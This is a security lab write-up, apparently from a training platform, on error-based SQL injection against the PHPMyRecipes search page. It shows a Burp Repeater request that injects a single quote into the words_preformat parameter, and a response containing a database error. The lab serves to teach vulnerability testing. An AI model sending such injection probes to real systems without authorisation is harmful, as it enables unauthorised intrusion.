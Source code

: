 
## In-Band SQL Injection

### Exploiting Error-Based SQLi Vulnerabilities

#### Lab Environment

**PHPMyRecipes**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be compromised remotely. SQL Injection vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, the attacker is unauthenticated to the web application and needs to find an SQL Injection attack on it.

<u>A version of PHPMyRecipes is vulnerable to an SQL injection attack</u>.

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /dosearch.php📌 HTTP/2
Host: foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
Origin: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

words_preformat='📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Tue, 26 Nov 2024 16:02:43 GMT
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 2553

<html>

[...]

    <TD WIDTH=50>&nbsp;</TD>
    <TD WIDTH=600 VALIGN=TOP ALIGN=LEFT>
<P CLASS="content-header" ALIGN=LEFT><FONT COLOR="#DCDCDC">Database Error</FONT></P>
      <TABLE BORDER=2 CELLPADDING=10 BACKGROUND="/images/paper002.jpg" WIDTH=90%>
```